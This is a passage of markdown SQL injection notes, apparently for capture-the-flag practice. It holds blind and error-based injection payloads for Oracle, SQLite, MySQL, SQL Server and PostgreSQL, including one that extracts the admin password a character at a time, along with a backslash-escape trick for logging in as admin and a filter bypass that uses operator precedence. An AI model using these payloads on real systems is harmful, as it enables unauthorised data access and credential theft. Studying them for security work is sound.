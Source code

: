 Manually bruteforcing each character can take quite long. We can either use Burp Intruder to leak the values, or script a custom Python implementation if Burp Intruder can't do what we want. For Burp Intruder, we'll usually need to use Cluster Bomb with at least 3 payloads: 2 digits for x, and 1 alphanumeric + symbols for char.

### Blind SQLi in different table
To change the table queried, simply put a SELECT statement in place of the string.

`substr((select password from users where username = 'admin'), 1, 1) = 'a'; -- `

### Error-based SQLi
` union select case when substr(password, 1, 1) = 'a' then to_char(1/0) else 'a' end) = 'a'; -- `

| Version    | Query                                                                  |
| ---------- | ---------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE '' END FROM DUAL`       |
| sqlite     | `SELECT iif(1, load_extension(1), '')`                                 |
| MySQL      | `SELECT if(1, (select table_name from information_schema.tables), '')` |
| Microsoft  | `SELECT iif(1, 1/0, '')`                                               |
| PostgreSQL | `SELECT CASE WHEN (1=1) THEN cast(1/0 as text) ELSE '' END`            |

> In Oracle, all SELECT statements must have a FROM parameter.

If the character guessed is right, the database will return an error. This can allow us to differentiate between true/false queries.

---

## String-based SQLi

This type of SQLi works when you have 2 string-bound inputs, and quotes are banned.

*eg.* `SELECT id FROM users WHERE id = '%s' and pw = '%s'`

We exploit the backslash escape character (\) to escape the second quote in id. 

Then, the first quote in pw will close the string, and whatever's in pw will be directly executed.

*eg.* `SELECT id FROM users WHERE id = '\' and pw = ' or id = "admin" -- '`, where `id=\'` and `pw= or id = "admin" -- `

---

## Filter bypasses

### Order of Operations

Do note that order of operations applies to SQL WHERE clause too! For example, `WHERE name = 'hello' and id = 1 or id = 0` is equivalent to `WHERE (name = 'hello' and id = 1) or id = 0`. This is useful when you want to select a different row in the same column than one already selected; it will select both their row and your row.
